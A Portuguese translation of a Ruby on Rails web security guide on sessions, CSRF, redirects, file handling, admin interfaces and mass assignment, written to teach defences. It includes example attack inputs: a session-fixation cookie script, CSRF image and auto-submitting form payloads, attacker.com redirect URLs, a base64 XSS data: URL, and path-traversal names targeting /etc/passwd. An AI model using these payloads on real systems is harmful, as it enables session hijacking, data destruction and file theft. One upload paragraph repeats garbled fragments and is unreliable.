


1 Introdução
Frameworks para aplicações web existem para ajudar os desenvolvedores a construir aplicações web. Alguns deles também lhe ajudam com a segurança de aplicações web. Na verdade um framework não é mais seguro que outro: Se você fizer corretamente, você poderá construir aplicações seguras com diversos frameworks. Ruby on Rails possui alguns métodos auxiliares bastante espertos, por exemplo contra injeção de SQL, logo isso dificilmente será um problema. É bom ver que todas as aplicações feitas com Rails que eu auditei possuem um bom nível de segurança.
De forma geral, não há nada parecido com ‘segurança plug-n-play’. Segurança depende das pessoas que estão usando o framework, e algumas vezes do método de desenvolvimento. Depende também de todas as camadas do ambiente de uma aplicação web: O sistema de armazenamento de dados, o servidor web e a aplicação web em si (e possivelmente outras camadas ou aplicações).
O Grupo Gartnet estima entretanto que 75% dos ataques ocorrem na camada da aplicação web, e descobriu que “dentre 300 sites auditados, 97% eram vulneráveis a ataques”. Isso ocorre porque aplicações web são relativamente fáceis de atacar, uma vez que são simples de entender e manipular, mesmo para pessoas leigas.
As ameaças contra aplicações web incluem sequestro da conta de usuário, burlar o controle de acesso, ler ou modificar dados sigilosos ou fornecer conteúdo fraudulento. Ou um atacante pode conseguir instalar um programa Cavalo de Tróia ou um software para envio de e-mails não solicitados, tentar enriquecer ou causar danos ao nome de uma marca alterando recursos da empresa. Para prevenir ataques, minimizar seu impacto e remover pontos de ataque, antes de mais nada você precisa entender completamente os métodos de ataque, para que seja capaz de encontrar as medidas preventivas corretas. É esse o objetivo deste guia.
Para desenvolver aplicações web seguras você deve se manter atualizado em todas as camadas e conhecer seus inimigos. Para manter-se atualizado assine listas de discussão sobre segurança. leia blogs sobre segurança e torne atualizações e verificações de segurança um hábito (dê uma olhada na seção Recursos Adicionais). Eu faço isso manualmente porque é assim que você encontra os problemas com segurança mais sórdidos.
2 Sessões
Um bom lugar para começar a dar uma olhada na segurança é nas sessõs, as quais podem ser vulneráveis a alguns ataques em particular.
2.1 O que são sessões?
— HTTP é um protocolo que não mantém estado. Sessões fazem com o estado seja mantido.
A maioria das aplicações precisam ter controle sobre alguns aspectos relacionados ao estado de um usuário particular. Pode ser o conteúdo de um carrinho de compras ou o id do usuário atualmente autenticado. Sem a idéia de sessões, o usuário teria que se identificar, e provavelmente se autenticar, a cada nova requisição. O Rails criará uma nova sessão automaticamente se um novo usuário acessar a aplicação, mas usará uma sessão existente se usuário já tiver usado a aplicação anteriormente.
Uma sessão consiste em um hash de valores e um id de sessão, geralmente uma string com 32 caracteres, para identificar o hash. Cada cookie enviado para o browser do usuário inclui o id de sessão. No caminho inverso, o browser enviará o id de sessão para o servidor em cada request. No Rails você pode salvar e recuperar valores usando o método session:
session[:user_id] = @current_user.id
User.find(session[:user_id])
2.2 Id de sessão
— O id de sessão é um hash MD5 com 32 bytes de comprimento.
Um id de sessão consiste em um hash criado a partir de uma string aleatória. A string aleatória é composta pelo horário atual, um número aleatório entre 0 e 1, o id do processo do interpretador Ruby (basicamente um número aleatório também) e uma string constante. Atualmente é realmente muito difícil quebrar ids de sessão do Rails usando força bruta. O algorítmo MD5 não é totalmente garantido, dado que teoricamente é possível criar dois textos de entrada diferentes que resultam em um mesmo hash MD5. Entretanto, até o momento isso não teve nenhum impacto na segurança do Rails.
2.3 Sequestro de sessão
— Roubar o id de sessão de um usuário permite que um atacante use a aplicação web se passando pelo usuário.
Muitas aplicações web possuem um sistema de autenticação: um usuário fornece um username e uma senha, a aplicação web verifica estes dados e carrega o respectivo id de usuário no hash de sessão. De agora em diante, a sessão é válida. A cada novo request a aplicação irá carregar o usuário, identificado pelo id de usuário na sessão, sem a necessidade de uma nova autenticação. O id de sessão no cookie identifica a sessão.
Desta forma, o cookie funciona como uma autenticação temporária para a aplicação web. Qualquer um que possua um cookie de outra pessoa pode utilizar a aplicação web como se fosse essa outra pessoa – possívelmente com consequências graves. Veja a seguir algumas formas de sequestrar a sessão e suas medidas preventivas:
- “Sniffar” o cookie em uma rede não segura. Uma rede LAN sem fios pode ser um exemplo de tal rede. Em uma rede LAN sem fios não encriptada é especialmente fácil escutar o tráfego de todos os clientes conectados. Esta é mais uma razão para não trabalhar a partir de uma cafeteria. Para o desenvolvedor de aplicações web, isso significa fornecer uma conexão segura através de SSL.
- A maioria das pessoas não limpa seus cookies após trabalhar em um terminal público. Assim, se o último usuário não desfizer seu login na aplicação web, você poderá usar a aplicação como se fosse este usuário. Forneça ao usuário um botão Sair e torne-o visível.
- Vários ataques de cross-site scripting (XSS) focam-se em obter o cookie do usuário. Você lê-rá mais sobre XSS mais à frente neste guia.
- Ao invés de roubar um cookie desconhecido do atacante, ele fixa o identificador de sessão de um usuário conhecido (no cookie). Leia mais sobre esta forma de fixação de sessão mais à frente.
O objetivo principal da maioria dos atacantes é fazer dinheiro. No submundo, os preços para dados de autenticação bancários roubados variam entre US$ 10,00 e US$ 1000,00 (dependendo dos fundos disponíveis), de US$ 0,40 a US$ 20,00 para números de cartão de crédito, US$ 1,00 a US$ 8,00 para contas em sites de leilão online e de US$ 4,00 a US$ 30,00 para senhas de email, de acordo com o Relatório Global de Ameaças de Segurança na Internet da Symantec.
2.4 Orientações sobre sessões
— Aqui estão algumas orientações gerais sobre sessões.
- Não guarde objetos muito grandes em uma sessão. Ao invés disso, você deve guardá-los no banco de dados e salvar apenas o id na sessão. Isso irá eliminar dores de cabeça com sincronização e não encherá o espaço de armazenamento da sessão (dependendo do tipo de mecanismo para armazenamento de sessão que você utilizar, veja mais abaixo). Com mecanismos de armazenamento do lado servidor você pode limpar as sessões, mas com mecanismo do lado cliente este é um problema difícil de eliminar.
- Não guarde dados críticos na sessão. Se um usuário limpar seus cookies ou fechar seu navegador, estes dados serão perdidos. Com um mecanismo de armazenamento no lado cliente, o usuário pode ler estes dados.
2.5 Mecanismos de armazenamento de sessão
— O Rails fornece diversos mecanismos de armazenamento para os hashes de sessão. Os mais importantes são o ActiveRecordStore e o CookieStore.
Existem diversos mecanismos para armazenamento de sessões, isto é, onde o Rails salva o hash de sessão e o id de sessão. A maioria das aplicações utiliza ActiveRecordStore (ou uma de suas variações) ao invés de armazenamento em arquivos, devido à razões de desempenho e manutenção. O ActiveRecordStore mantém o id de sessão e o hash em uma tabela no banco de dados, salvando e recuperando o hash a cada novo request.
O Rails 2 introduziu um novo mecanismo padrão para armazenamento de sessão, o CookieStore. O CookieStore salva o hash de sessão diretamente em um cookie no lado cliente. O servidor recupera o hash de sessão deste cookie e elimina a necessidade de um id de sessão. Isso aumenta em muito a velocidade da aplicação, mas é uma opção de armazenamento controversa e você levar em conta suas implicações com segurança:
- Cookies possuem um limite de tamanho de apenas 4K. Isso não deve ser problema, uma vez que você não deve guardar grandes quantidades de dados em uma sessão, como descrito anteriormente. Normalmente não há problemas em guardar o id do usuário atual.
- O cliente pode ver tudo o que você guardar na sessão, porque estes dados serão guardados em claro (na verdade codificados em base 64, logo não encriptados). Dessa forma, óbviamente, você não quer guardar nenhum segredo aqui. Para prevenir adulterações na sessão, uma chave é calculada a partir da sessão e de uma palavra secreta no servidor e inserida no final do cookie.
Isso significa que a segurança deste mecanismo depende desta palavra secreta (e do algorítmo de geração da chave, que por padrão é o SHA512, o qual ainda não foi quebrado). Logo, não use uma palavra secreta muito comum, ou seja, uma palavra de um dicionário ou uma que seja menor que 30 caracteres. Coloque a palavra secreta em seu environment.rb:
config.action_controller.session = {
:session_key => ‘_app_session’,
:secret => ‘0x0dkfj3927dkc7djdh36rkckdfzsg...’
}
Existem, entretanto, variações do CookieStore que encriptam o hash de sessão, logo o cliente não pode vê-lo.
2.6 Ataques de replay para sessões em CookieStore
— Outro tipo de ataque sobre o qual você deve estar alerta quando estiver usando CookieStore é o ataque de replay.
Funciona da seguinte maneira:
- Um usuário recebe créditos, o valor é armazenado na sessão (o que é uma má idéia, de qualquer forma, mas nós iremos fazer isso para fins de demonstração).
- O usuário compra algo.
- Seu novo crédito, mais baixo, será armazenado na sessão.
- O lado negro do usuário o força a pegar o cookie do primeiro passo (o qual ele copiou) e substituir o cookie atual no navegador.
- O usuário tem seus créditos de volta.
Incluir um valor aleatório na sessão resolve o problema dos ataques de replay. Um valor aleatório é válido somente uma vez, e o servidor precisa ter controle sobre todos os valores aleatórios válidos. Isso se torna ainda mais complicado se você tiver diversos servidores de aplicação (mongrels). Guardar valores aleatórios em uma tabela no banco de dados seria contra todo o propósito do CookieStore (evitar acessar o banco de dados).
A melhor solução contra ataques de replay é não guardar este tipo de informação na sessão, mas sim no banco de dados. Neste caso guarde os créditos no banco de dados o id do usuário atual na sessão.
2.7 Fixação de sessão
— Além de roubar o id de sessão do usuário, um atacante pode fixar um id de sessão conhecido. Isso é chamado de fixação de sessão.

Este ataque foca em fixar o id de sessão de um usuário conhecido do atacante e forçar o navegador do usuário a utilizar este id. Dessa forma não é necessário que o atacante roube o id de sessão. Aqui está como este ataque funciona:
- O atacante cria um id de sessão válido: Ele carrega a página de login da aplicação web para a qual ele quer fixar a sessão e pega o id de sessão do cookie que vier na resposta (veja os números 1 e 2 na imagem).
- Ele possivelmente mantém a sessão. Sessões que expiram, por exemplo a cada 20 minutos, reduzem em muito o intervalo de tempo que pode ser utilizado para o ataque. Dessa forma ele precisa acessar a aplicação web de tempo em tempo para manter a sessão ativa.
- Agora o atacante forçará o navegador do usuário a utilizar este id de sessão (veja o número 3 na imagem). Como você não pode alterar um cookie de outro domínio (devido a política de mesma origem), o atacante deve executar um código JavaScript proveniente do domínio da aplicação web alvo. Injetar o código JavaScript na aplicação através de XSS torna este ataque possível. Aqui está um exemplo:
<script>
document.cookie="_session_id=16d5b78abb28e3d6206b60f22a03c8d9";
</script>
Leia mais sobre XSS e injeção mais à frente.
- O atacante atrai a vítima até a página infectada com o código JavaScript. Por ter acessado a página, o navegador do usuário irá alterar o id da sessão para o id fixado pelo atacante.
- Como a sessão fixada não foi utilizada, a aplicação web solicitará que o usuário se autentique.
- De agora em diante, a vítima e o atacante utilizarão a aplicação web com a mesma sessão: A sessão tornou-se válida e a vítima não notou o ataque.
2.8 Fixação de sessão – Medidas preventivas
— Uma linha de código o protegerá contra ataques de fixação de sessão.
A medida preventiva mais eficiente é fornecer um novo identificador de sessão e declarar o identificador anterior inválido logo após uma tentativa de autenticação com sucesso. Dessa forma, um atacante não pode usar o identificador da sessão fixada. Esta é também uma boa medida preventiva contra sequestro de sessão. Aqui está como criar uma nova sessão no Rails:
reset_session
Se você utiliza o popular plugin RestfulAuthentication para manutenção de usuários, adicione reset_session à action SessionsController#create. Note que isso remove qualquer valor da sessão, você precisa transferi-los para a nova sessão.
Outra medida preventiva é salvar propriedades específicas do usuário na sessão, verificá-las a cada novo request, e negar acesso se a informação não bater.Tais propriedades poderiam ser o endereço de IP remoto ou o nome do agente (o nome do navegador), apesar do último ser menos específico do usuário. ao salvar o endereço IP, você deve ter em mente que existem provedores de serviços de Internet ou grandes organizações que colocam seus usuário atrás de proxies. Estes proxies podem mudar durante a duração de uma sessão, logo estes usuários não serão capazes de utilizar sua aplicação, ou apenas poderão usá-la de forma limitada.
2.9 Validade da sessão
— Sessões que nunca expiram aumentam o intervalo de tempo para ataques como cross site reference forgery (CSRF), sequestro de sessão ou fixação de sessão.
Uma possibilidade é definir o time-stamp de validade do cookie com o id da sessão. Entretanto o usuário pode editar cookies que estão armazenados no navegador, logo expirar as sessões no servidor é mais seguro. Aqui está um exemplo de como expirar sessões em uma tabela no banco de dados. Chame Session.sweep("20m") para expirar sessões que fiquem mais de 20 minutos sem serem usadas.
class Session < ActiveRecord::Base
def self.sweep(time_ago = nil)
time = case time_ago
when /^(\d+)m$/ then Time.now - $1.to_i.minute
when /^(\d+)h$/ then Time.now - $1.to_i.hour
when /^(\d+)d$/ then Time.now - $1.to_i.day
else Time.now - 1.hour
end
self.delete_all "updated_at < '#{time.to_s(:db)}'"
end
end
A seção sobre fixação dee sessão introduziu o problema de manutenção de sessões. Um atacante mantendo uma sessão a cada cinco minutos pode manter a sessão ativa para sempre, apesar de você estar expirando as sessões. Uma solução simples para isso seria adicionar uma coluna created_at à tabela de sessões. Agora você pode apagar sessões que foram criadas há muito tempo atrás. Use essa linha no método sweep acima:
self.delete_all "updated_at < '#{time.to_s(:db)}' OR created_at < '#{2.days.ago.to_s(:db)}'"
3 Cross-Site Reference Forgery (CSRF) — Este método de ataque funciona incluindo código malicioso ou um link em uma página que acessa uma aplicação web na qual acredita-se que o usuário tenha se autenticado. Se a sessão para essa aplicação web não tiver expirado, um atacante pode executar comandos não autorizados.

No capítulo sobre sessões você aprendeu que a maioria das aplicações Rails utilizam sessões armazenadas em cookies. Ou elas guardam o id de sessão no cookie e possuem um hash de sessão do lado servidor, ou todo o hash de sessão fica do lado cliente. Em qualquer um dos casos o navegador enviará o cookie a um domínio a cada nova requisição, se ele for capaz de encontrar um cookie para aquele domínio. O ponto controverso é que ele também enviará o cookie se a requisição vier de um domínio diferente. Vamos começar com um exemplo:
- Bob navega por um fórum de discussão e visualiza uma mensagem criada por um hacker onde existe um elemento HTML de imagem forjado. O elemento referencia um comando na aplicação de gerenciamento de projetos de Bob, ao invés de um arquivo de imagem.
- <img src="http://www.webapp.com/project/1/destroy"/>
- A sessão de Bob em www.webapp.com ainda está ativa, porque ele não fez seu logout alguns minutos atrás.
- Por acessar a mensagem, o navegador encontra uma tag de imagem. Ele tenta carregar a imagem suspeita a partir de www.webapp.com. Como explicado anteriormente, ele também enviará o cookie com id de sessão válido.
- A aplicação web em www.webapp.com verifica a informação do usuário no respectivo hash de sessão e destroy o projeto com ID 1. Ele então retorna a página com o resultado da operação, o que é um resultado inesperado para o navegador, logo ele não irá exibir a imagem.
- Bob não percebe o ataque — Mas alguns dias mais tarde ele percebe que o projeto número um se foi.
É importante perceber que a imagem forjada ou link não precisam necessariamente estar situados no domínio da aplicação web, pode estar em qualquer lugar – em um fórum, post de blog ou email.
O CSRF aparece muito raramente no CVE (Exposições e Vulnerabilidades Comuns) — menos de 0.1% em 2006 — mas é realmente um ‘gigante adormecido’ [Grossman]. Esses dados estão em forte contraste com os resultados no meu trabalho em relação à segurança (e também no de outros) – CSRF é um problema de segurança muito importante.
3.1 Medidas preventivas para o CSRF
— Primeiramente, como é requerido pelo W3C, utilize POST e GET de forma correta. Além disso, um token de segurança em requesições que não sejam GET protegerá sua aplicação contra o CSRF.
O protocólo HTTP fornece basicamente duas formas princípais de requisiçãi – GET e POST (e outros, mas estas não são fornecidas pela maioria dos navegadores). O World Wide Web Consortium (W3C) fornece um checklist para que se escolha entre GET ou POST:
Utilize GET se:
- A interação for como uma pergunta (ou seja, é uma operação segura, como uma pesquisa, operação de leitura, etc).
Utilize POST se:
- A interação for como uma ordem, ou
- A interação altera o estado do recurso de uma forma que usuário perceberia (por exemplo, a assinatura de um serviço), ou
- O usuário deve se responsabilizar pelos resultados da interação.
Se a sua aplicação web for RESTful, você deve estar acostumado com os verbos HTTP adicionais, como PUT e DELETE. A maioria dos navegadores atuais, entretanto, não sabem como tratar tais verbos – apenas GET e POST. O Rails utiliza um campo oculto _method para tratar esta limitação.
O método verify em um controller pode certificar que actions específicas não possam ser utilizas através de GET. Aqui está um exemplo para verificar o uso da action transfer através de POST. Se a ação vier utilizando qualquer outro verbo, haverã um redirecionamento para a action list.
verify :method => :post, :only => [:transfer], :redirect_to => {:action => :list}
Com a adoção do padrão RESTful no Rails 2, a simples utilização de um mapeamento na forma map.resources :your_resources no seu arquivo routes.rb, em conjunto com a correta utilização do conjunto de rotas dinamicamente gerado por essa linha de código, garante a utilização dos verbos corretos para cada tipo de ação sobre um recurso.
Com essas precauções, o ataque citado acima não funcionará, porque o browser enviará uma requisição GET para imagens, a qual não será aceita pela aplicação web.
Mas este foi apenas o primeiro passo, porque requests POST podem ser enviados automaticamente também. Aqui está um exemplo de um link que exibe www.harmless.com como destino na barra de status do navegador. Na verdade esse cria um novo form dinamicamente que envia um request POST.
<a href="http://www.harmless.com/" onclick="
var f = document.createElement('form');
f.style.display = 'none';
this.parentNode.appendChild(f);
f.method = 'POST';
f.action = 'http://www.example.com/account/destroy';
f.submit();
return false;">To the harmless survey</a>
Ou um atacante o código no evento onmouseover de uma imagem:
<img src="http://www.harmless.com/img" width="400" height="400" onmouseover="..." />
Existem muitas outras possibilidades, incluindo Ajax para atacar a vítima no background. A solução (highlight) para este problema é incluir um token de segurança em requests que não sejam GET que casem com o que está do lado servidor. No Rails 2 ou superior, precisamos de uma única linha de código no application controller:
protect_from_forgery :secret => "123456789012345678901234567890..."
Isso incluirá automaticamente um token de segurança, calculado a partir da sessão atual e de uma palavra secreta do lado servidor, em todos os formulários e requests Ajax gerados pelo Rails. Você não precisará da palavra secreta se você utilizar CookiStorage como mecanismo de armazenamento de sessions. Se o token de segurança não for o esperado, será lançada uma exceção do tipo ActioController::InvalidAuthenticityToken
Perceba que vulnerabilidades de cross-site scripting (XSS) contornam todas as proteções contra CSRF. XSS dá ao atacante acesso a todos os elementos em uma página, logo ele pode ler o token de segurança CSRF de um form ou enviar o form diretamente. Leia mais sobre XSS mais à frente.
4 Redirecionamento e Arquivos
Outra forma de vulnerabilidade de segurança envolve o uso de redirecionamento e arquivos em aplicações web.
4.1 Redirecionamento
— Redirecionamento em um aplicação web é uma ferramenta craker subestimada: O atacante pode não apenas enviar o usuário para um website falso mas também criar um ataque auto contido.
Sempre que for possível que o usuário forneça (partes) da URL para redirecionamento, essa será uma possível vulnerabilidade. O ataque mais óbvio seria redirecionar usuários para uma aplicação web falsa que se pareça exatamente com a original. Esse pseudo ataque de phishing funciona enviando um link por email para os usuários, injetando o link por XSS na aplicação web ou colocando o link em um site externo. Isso não levanta suspeitas, porque o link começa com a URL da aplicação web e a URL do site malicioso está escondida no parâmetro de redirecionamento: http://www.example.com/site/redirect?to= www.attacker.com. Aqui está um exemplo de uma action ‘legacy’:
def legacy
redirect_to(params.update(:action=>'main'))
end
Isso irá redirecionat o usuário para a action ‘main’ se ele tentar acessar a action ‘legacy’. A intenção foi preservar os parãmetros da URL para a action ‘legacy’ e passá-los para a action ‘main’. Entretanto, isso pode ser explorado por um atacante caso ele inclua uma chave ‘host’ na URL
http://www.example.com/site/legacy?param1=xy¶m2=23&host=www.attacker.comSe este parâmetro estiver no final da URL ele dificilmente será percebido e fará com que o usuário seja redirecionado para o host attacker.com. Uma medida preventiva simples seria incluir apenas os parâmetros esperados na action ‘legacy’ (novamente uma tática de whitelist, ao contrário de remover parâmetros inesperados). E se você redirecionar para uma URL, verifique-a com uma white list ou expressão regular.
4.1.1 XSS Auto-contido
Outro ataque de redirecionamento e XSS auto-contido funciona no Firefox e no Opera, utilizando o protocolo de dados. Este protocolo exibe seu conteúdo diretamente no navegador e pode ser qualquer coisa, de HTML ou JavaScript a imagens:
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4KEste exemplo é um JavaScript codificado em Base64 que exibe uma simples caixa de mensagem. Em uma URL de redirecionamento, um atacante poderia fazer um redirecionamento para essa URL com um código malicioso embutido. Como medida preventiva, não permita que o usuário forneça partes da URL (ou toda ela) para redirecionamento.
4.2 Uploads de Arquivos
— Certifique-se de que uploads de arquivos não sobrescrevem arquivos importantes e processe arquivos de media de forma assíncrona.
Muitas aplicações web permitem que usuários façam upload de arquivos. Nomes de arquivos que o usuário possa (parcialmente) escolher, devem sempre ser filtrados, uma vez que um atacante pode utilizar um nome de arquivo malicioso para sobrescrever qualquer arquivo no servidor. Se você armazenar os arquivos em /var/www/uploads, e o usuário fornecer um nome como “../../../etc/passwd”, isso pode sobrescrever um arquivo importante. Óbviamente o interpretador Ruby precisaria das permissões necessárias para fazer isso – uma razão a mais para executar web servers, servidores de bancos de dados e outros programas como um usuário Unix menos privilegiado.
Quando estiver filtrando os nomes de arquivo fornecidos pelos usuários, não tente remover as partes maliciosas. Pense em uma situação onde a aplicação web remove todos os ‘../’ de um nome de arquivo e um usuário utilize uma string como ‘….//’ – o resultado seria não tente remover as partes maliciosas_. Pense em uma situação onde a aplicação web remove todos os ‘../’ de um nome de arquivo e um usuário utilize uma string como ‘….//’ – o resultado seria não tente remover as partes maliciosas#. Pense em uma situação onde a aplicação web remove todos os ‘../’ de um nome de arquivo e um usuário utilize uma string como ‘….//’ – o resultado seria ‘../’. É melhor utilizar uma tática de whitelist que tente remover caracteres não permitidos. Caso este não seja um nome de arquivo válido, rejeite-o (ou substitua caracteres não permitidos), mas não remova-os. Este é o sanitizador de nomes de arquivos do plugin attachment_fu:
def sanitize_filename(filename)
returning filename.strip do |name|
# NOTE: File.basename doesn't work right with Windows paths on Unix
# get only the filename, not the whole path
name.gsub! /^.*(\\|\/)/, ''
# Finally, replace all non alphanumeric, underscore
# or periods with underscore
name.gsub! /[^\w\.\-]/, '_'
end
end
Uma desvantagem significativa de processar uploads de arquivos de forma síncrona (como o plugin attachment_fu pode fazer com imagens) é sua vulnerabilidade para ataques de denial-of-service. Um atacante pode iniciar, de forma síncrona, uploads de arquivos a partir de vários computadores, o que aumentaria a carga no servidor e poderia eventualmente travá-lo.
A solução para isso é processar arquivos de media de forma assíncrona: Salve o arquivo e agende um request para processamento no banco de dados. Um segundo processo cuidará do processamento do arquivo em background.
4.3 Código executável em uploads de arquivos
— Arquivos fonte em uploads de arquivos podem ser executados quando colocados em diretórios específicos. Não coloque file uploads na pasta ‘/public’ da sua aplicação Rails se este for o diretório ‘home’ do Apache.
O popular servidor web Apache possui uma opção chamada DocumentRoot. Este é o diretório ‘home’ do web site, tudo nesta árvore de diretórios será servido pelo servidor web. Caso existam arquivos com uma certa extensão, o código que estiver ali dentro será executado quando solicitado. Exemplos disso são arquivos PHP e CGI. Agora pense em uma situação onde um atacante envia um arquivo file.cgi com código dentro, o qual será executado quando alguém fizer download deste arquivo.
Se o seu DocumentRoot do Apache apontar para a pasta ‘public’ da sua aplicação Rails, não coloque os arquivos recebidos ali, armazene os arquivos pelo menos um nível acima.
4.4 Downloads de arquivos
— Certifique-se de que os usuários não possam fazer download de arquivos arbitrários.
Assim como você deve filtrar o nome dos arquivos para upload, você deve fazer o mesmo com os downloads. O método send_file envia arquivos do servidor para o cliente. Se você utilizar um nome de arquivo informado pelo usuário, sem filtrar, pode-se realizar o download de qualquer arquivo:
send_file('/var/www/uploads/' + params[:filename])
Basta fornecer um nome de arquivo como “../../../etc/passwd” para realizar o download das informações de login do servidor. Uma solução simples contra isso é verificar que o arquivo encontra-se no diretório esperado:
basename = File.expand_path(File.join(File.dirname(__FILE__), '../../files'))
filename = File.expand_path(File.join(basename, @file.public_filename))
raise if basename =!
File.expand_path(File.join(File.dirname(filename), '../../../'))
send_file filename, :disposition => 'inline'
Outra estratégia (adicional) é armazenar o nome dos arquivos no banco de dados e nomear os arquivos em disco a partir dos ids dos registros. Esta também é uma boa estratégia para evitar que seja executado qualquer código existente nos arquivos enviados. O plugin attachment_fu faz isso de forma similar.
5 Segurança Administrativa e em Intranets
— Interfaces administrativas e de intranet são alvos populares para ataques, porque eles permitem acesso privilegiado. Apesar desse tipo de situação exigir que diversas medidas de segurança adicionais sejam adotadas, o oposto é o que realmente ocorre no mundo real.
Em 2007 foi criado o primeiro Trojan sob medida o qual roubou informações de uma Intranet, chamada “The Monster for employers” (Monster.com), uma aplicação web para recrutamento de profissionais. Trojans criados sob medida são muito raros, até o momento, e o risco é relativamente baixo, mas esta certamente é uma possibilidade e um exemplo de como a segurança da máquina cliente é importante também. Entretanto, a maior ameaça para aplicações administrativas e de Intranet são o XSS e o CSRF.
XSS Se sua aplicação re-exibe input malicioso de usuários da extranet, a aplicação será vulnerável a XSS. Nomes de usuários, comentários, relatórios de spam, endereços de pedidos são apenas alguns exemplos comuns, onde pode existir XSS.
Existindo pelo menos um único local na interface de administração ou na Intranet onde os dados adicionados pelos usuários não tenham sido devidamente sanitizados faz com que toda a aplicação fique vunerável. Exploits possíveis incluem roubar o cookie privilegiado de um administrador, injetar um iframe para roubar o password do administrador ou instalar software malicioso através de falhas de segurança no browser, de forma a tomar o controle do computador do administrador.
Leia a seção sobre Injeção para aprender medidas preventivas contra XSS. É recomendado utilizar o plugin SafeErb também em Intranets ou interfaces administrativas.
CSRF Cross-Site Reference Forgery (CSRF) é um método de ataque bastante poderoso, o qual permite que o atacante faça tudo que um administrador ou usário da Intranet podem fazer. Como você já viu acima como o CSRF funciona, aqui estão alguns exemplos do que atacantes podem fazer na Intranet ou interface administrativas.
Um exemplo real é uma reconfiguração de roteador por CSRF. Os atacantes enviam um e-mail malicioso, contendo CSRF, para usuários mexicanos. O e-mail afirma que existe um e-card aguardando por eles, mas também contém uma tag image que resulta em request HTTP Get para reconfigurar o roteador do usuário (o qual é um modelo popular no México). O request altera as configurações de DNS de forma que requests para um banco sediado no México sejam mapeados para o site do atacante. Todos que acessarem o site do banco através deste roteador verão o site falso do atacante e terão seus dados roubados.
Outro exemplo altera o endereço de e-mail e o password do Goggle Adsense através de CSRF. Caso a vítima se autentique no Google Adsense, a interface administrativa para campanhas de propaganda do Google, um atacante pode roubar seus dados.
Outro ataque popular é fazer com que sua aplicação web, blog ou fórum espalhem XSS malicioso. Óbviamente o atacante precisa conhecer a estrutura de URL, mas a maioria das URLs do Rails são bastante simples ou são fáceis de entender, caso esta seja a interface admninistrativa de uma aplicação open-source. O atacante pode até mesmo tentar descobrir essa estrutura apenas incluindo tags IMG maliciosas que tentem cada combinação possível.
Para medidas preventivas contra CSRF em interfaces admninistrativas e aplicações de Intranet, leia a seção de CSRF.
5.1 Precaues adicionais
A interface de administração comum funciona da seguinte maneira: está localizada em www.example.com/admin, pode ser acessada somente se a flag ‘admin’ estiver definida como ‘true’ no model User, re-apresenta input do usuário e permite que o administrador apague/adicione/edite quaisquer dados. Aqui vão algumas idéias sobre isso:
- É muito importante que se pense no pior caso: O que acontece caso alguém se apodere do meu cookie ou credenciais de usuário? Você pode (highlightintroduzir perfis_ na interface administrativa para limitar as possibilidades do atacante. Ou que tal credenciais de login especiais para a interface administrativa, diferentes das normalmente utilizadas para a parte pública da aplicação? Ou senhas especiais para ações realmente críticas?
- Será que o administrador realmente precisa ter acesso a interface de administração a partir de qualquer lugar no mundo? Pense sobre limitar o login à uma lista de endereços de IP de origem. Examine o request.remote_ip para verificar o endereço IP do usuário. Isso não é algo “à prova de balas”, mas é uma grande barreira. Lembre-se que o atacante pode estar utilizando um proxy.
- Coloque a interface administrativa em um sub-domínio especial, como admin.application.com e faça com que esta seja uma aplicação separada com seu próprio controle de usuários. Isso faz com que seja impossível roubar o cookie do administrador a partir do domínio normal, www.application.com. Isso acontece devido à política de mesma origem no seu browser: um script injetado (XSS) em www.application.com não pode ler o cookie criado por admin.application.com e vice-versa.
6 Mass assignment
— Sem quaisquer precauções model.new(params[:model]) permite que atacantes definam o valor de qualquer coluna no seu banco de dados.
O recurso de mass assignment (atribuição em massa) pode se tornar um problema, pois permite que um atacante defina qualquer atributo do model, através da manipulação do hash passado para o método new() de um model:
def signup
params[:user] #=> {:name => “ow3ned”, :admin => true}
@user = User.new(params[:user])
end
O recurso de mass-assignment economiza muito trabalho, pois você não precisa definir cada valor individualmente. Apenas passe um hash com valores para o método new ou attributes= para definir os atributos do model com os valores deste hash. O problema é que esse recurso é geralmente utilizado em conjunto com o hash de parâmetros (params), disponível no controller, o qual pode ser manipulado por um atacante. Ele pode fazer isso alterando a URL da seguinte forma:
"name":http://www.example.com/user/signup?user=ow3ned&user[admin]=1
Isso irá definir os seguintes parâmetros no controller:
params[:user] #=> {:name => “ow3ned”, :admin => true}
Logo, se você criar um novo usuário utilizando mass-assignment, pode ser muito fácil se tornar um administrador.
6.1 Medidas preventivas
Para evitar que isso ocorra, o Rails fornece dois métodos da classe ActiveRecord para controlar acesso aos seus atributos. O método attr_protected recebe uma lista de atributos que não serão acessíveis por mass-assignment. Por exemplo:
attr_protected :admin
Uma forma muito melhor, porque segue o princípio de whitelist, é o método attraccessible. Ele é exatamente o oposto do método attrprotected, porque recebe uma lista com os atributos que serão acessíveis. Todos os demais atributos estarão protegidos. Dessa forma você não irá esquecer de proteger os atributos que você for adicionando durante o desenvolvimento. Aqui está um exemplo:
attr_accessible :name
Se você quiser definir o valor de um atributo protegido, terá que defini-lo de forma individual:
params[:user] #=> {:name => "ow3ned", :admin => true}
@user = User.new(params[:user])
@user.admin #=> false # not mass-assigned
@user.admin = true
@user.admin #=> true
7 Gerenciamento de usuários
— Quase todas as aplicações web têm que lidar com autorização e autenticação. Ao invés de criar as suas próprias soluções, é aconselhável utilizar plugins já conhecidos. Mas mantenha-os atualizados também. Algumas precauções adicionais podem tornar sua aplicação ainda mais segura.
